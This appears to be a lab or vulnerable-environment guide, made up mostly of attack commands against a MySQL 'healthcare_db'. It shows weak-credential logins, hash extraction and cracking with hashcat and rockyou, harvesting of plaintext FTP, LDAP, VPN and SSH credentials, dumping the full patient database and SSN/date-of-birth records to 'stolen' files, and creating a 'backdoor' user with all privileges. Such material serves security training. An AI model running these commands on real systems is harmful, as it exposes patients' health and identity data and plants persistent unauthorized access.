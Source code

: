 ### 1. Credential Access

```bash
# Test weak credentials
mysql -h localhost -P 3306 -u root -padmin123

# Extract password hashes
mysql -u reporting -preports healthcare_db -e "SELECT username, password_hash FROM users;"

# Crack MD5 hashes
hashcat -m 0 -a 0 hashes.txt rockyou.txt
```

### 2. Plaintext Credential Harvesting

```sql
-- Extract plaintext passwords from database
USE healthcare_db;
SELECT id, comment_text, plaintext_credential 
FROM comments 
WHERE plaintext_credential IS NOT NULL;

-- Reveals:
-- - FTP credentials
-- - LDAP admin password
-- - VPN credentials  
-- - SSH root password
-- - And more...
```

### 3. PHI Data Exfiltration

```bash
# Dump entire database
mysqldump -h localhost -P 3306 -u backup -pbackup123 \
  healthcare_db > stolen_database.sql

# Extract SSNs only
mysql -u backup -pbackup123 -N -B healthcare_db <<EOF
SELECT first_name, last_name, ssn, dob FROM patients;
EOF > stolen_ssn.csv
```

### 4. Privilege Escalation

```sql
-- Connect as low-privilege user
mysql -u reporting -preports healthcare_db

-- Find admin credentials
SELECT plaintext_credential FROM comments 
WHERE plaintext_credential LIKE '%admin%';

-- Disconnect and reconnect with elevated privileges
-- Then create backdoor:
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'secret';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
```
